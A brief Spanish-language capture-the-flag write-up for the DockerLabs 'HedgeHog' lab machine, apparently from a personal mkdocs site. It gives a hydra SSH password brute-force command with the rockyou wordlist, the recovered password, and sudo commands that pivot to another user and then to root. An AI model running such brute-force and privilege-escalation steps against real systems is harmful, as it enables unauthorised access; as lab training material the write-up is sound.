

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/dockerlabs/hedgehog/index.html · generator: mkdocs

# HedgeHog

En la web solo se muestra la palabra *tails*
`hydra -l tails -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`
**3117548331**

## Escalada

`sudo -l`
*(sonic) NOPASSWD: ALL*
El usuario sonic es capaz de ejecutar cualquier binario a nivel de sudoer
`sudo -u sonic /bin/bash`

Se consigue acceso a sonic y ahora se puede ejecutar */bin/bash* para escalar a root
`sudo su`
